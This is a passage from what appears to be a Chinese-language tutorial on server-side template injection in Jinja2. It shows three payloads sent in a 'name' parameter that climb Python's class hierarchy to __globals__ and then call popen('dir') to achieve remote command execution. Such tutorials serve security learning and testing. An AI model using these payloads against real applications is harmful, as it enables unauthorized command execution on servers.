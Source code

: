 ```plain
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__}}
```

[![在这里插入图片描述](assets/1698900310-0ab73b04d203e300708ba8c4f353ecf8.png)](https://storage.tttang.com/media/attachment/2022/08/14/8befa05f-5eb6-4cd5-9c8f-3cbf580d1cee.png)  
然后再调用\_\_globals\_\_获取到方法内以字典的形式返回的方法、属性等

```plain
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__}}
```

[![在这里插入图片描述](assets/1698900310-5ef126bce053cf750e94195d4830b293.png)](https://storage.tttang.com/media/attachment/2022/08/14/ea0ef73f-7eed-446b-9e13-70ff89b57fc2.png)  
此时就可以去进行 RCE 了

```plain
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read()}}
```
